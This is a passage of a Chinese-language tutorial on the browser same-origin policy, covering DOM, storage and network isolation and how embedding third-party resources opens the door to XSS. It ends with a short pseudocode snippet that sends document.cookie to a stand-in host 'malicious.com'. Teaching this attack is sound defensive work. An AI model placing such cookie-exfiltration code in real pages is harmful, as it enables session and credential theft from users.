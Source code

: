 ![](https://static001.geekbang.org/resource/image/2a/25/2a988d3d2f82aa4230f2b5025134b125.png?wh=1142%2A528)

通过第二个页面操纵第一个页面的DOM

不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作DOM了。比如从极客时间官网打开InfoQ的页面（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作，最终操作结果如下图所示：

![](https://static001.geekbang.org/resource/image/71/b5/711d96a58f670bda0d9b9608165839b5.png?wh=1142%2A539)

不同源的两个页面不能相互操纵DOM

从图中可以看出，当我们在InfoQ的页面中访问极客时间页面中的DOM时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。

```
Blocked a frame with origin "https://www.infoq.cn" from accessing a cross-origin frame.
```

**第二个，数据层面**。同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。由于同源策略，我们依然无法通过第二个页面的opener来访问第一个页面中的Cookie、IndexDB或者LocalStorage等内容。你可以自己试一下，这里我们就不做演示了。

**第三个，网络层面**。同源策略限制了通过XMLHttpRequest等方式将站点的数据发送给不同源的站点。你还记得在[《17 | WebAPI：XMLHttpRequest是怎么实现的？》](https://time.geekbang.org/column/article/135127)这篇文章的末尾分析的XMLHttpRequest在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。

## 安全和便利性的权衡

我们了解了同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。

不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得Web项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。

### 1. 页面中可以嵌入第三方资源

我们在文章开头提到过，Web世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上，这无疑违背了Web的初衷，也带来了诸多限制。比如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往HTML文件中插入恶意脚本。

比如，恶意程序在HTML文件内容中插入如下一段JavaScript代码：

![](https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png?wh=834%2A338)

当这段HTML文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如Cookie、IndexDB、LoacalStorage等数据通过XSS的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```
